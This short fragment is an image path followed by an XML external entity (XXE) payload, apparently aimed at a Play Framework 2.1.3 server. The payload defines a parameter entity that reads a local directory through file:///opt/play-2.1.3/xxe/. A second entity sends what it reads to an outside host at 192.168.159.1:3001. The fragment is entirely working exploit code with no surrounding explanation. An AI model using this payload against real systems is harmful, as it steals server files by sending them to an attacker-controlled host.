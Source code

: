 <!ENTITY % p1 SYSTEM "file:///opt/play-2.1.3/xxe/">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://192.168.159.1:3001/BLAH?%p1;'>">
%p2;
